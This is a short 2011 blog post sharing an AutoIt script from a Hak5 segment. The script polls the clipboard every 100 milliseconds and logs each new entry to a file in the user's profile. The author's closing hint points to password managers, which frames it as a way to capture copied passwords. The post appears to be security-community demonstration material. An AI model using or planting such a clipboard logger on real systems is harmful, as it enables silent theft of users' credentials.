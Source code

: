 ---
author: mubix
comments: true
date: 2011-12-26 06:06:20+00:00
layout: post
title: Hak5 Segment Sneak Peak
categories:
- hak5
- releases
- clipboard
- autoit
---

Since it's Christmas and all, I thought I'd post the code snippet from my Hak5 segment a bit early:

```
#include <Clipboard.au3>
#include <File.au3>
$oldclip = ""
While 1
    $clip = _ClipBoard_GetData()
    If $clip <> "0" Then
        If $clip <> $oldclip Then
            _FileWriteLog(@UserProfileDir & "clip.log", $clip)
            $oldclip = $clip
        EndIf
    EndIf
    Sleep(100)
WEnd
```    

It's pretty straight forward, and I welcome everyone to install AutoIt3 and compile/run the above script to see what it does (although most of you I'm sure can figure it out just by reading it).

(Think KeePass, 1Password, LastPass...)
